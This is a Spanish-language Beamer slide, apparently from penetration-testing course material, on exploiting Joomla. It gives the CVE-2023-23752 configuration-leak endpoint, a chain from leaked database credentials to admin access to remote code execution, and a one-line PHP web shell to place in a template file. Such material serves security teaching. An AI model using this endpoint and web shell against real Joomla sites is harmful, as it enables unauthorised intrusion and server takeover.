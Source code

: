 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{Joomla --- Explotación y RCE}
\small
  \begin{itemize}
  \item Hacking Joomla
  \item CVE-2023-23752 (fuga sin auth)
  \item La API REST expone la configuración con credenciales de BD:
  \item /api/index.php/v1/config/application?public=true
  \item $\rightarrow$ DB user/pass $\rightarrow$ login admin $\rightarrow$ RCE.
  \item RCE como administrador
  \item Extensions $\rightarrow$ Templates $\rightarrow$ editar index.php/error.php
  \item de la plantilla $\rightarrow$ \textless{}?php system(\$\_GET['c']); ?\textgreater{}
  \item o instalar una extensión maliciosa (.zip).
  \item Componentes vulnerables
  \item searchsploit joomla \textless{}componente\textgreater{} (SQLi, LFI, upload\dots{})
  \item exploit-db $\cdot$ CVE-2023-23752 (Acunetix/PoC)
  \item GET /api/index.php/v1/
  \item config/application?public=true
  \item Fuga de configuración
  \item (CVE-2023-23752)
  \item Usuario y password de la BD
  \item $\rightarrow$ admin $\rightarrow$ RCE
  \item Joomla 4.0.0 -- 4.2.7 (sin autenticación)
  \end{itemize}
\end{frame}
\end{document}
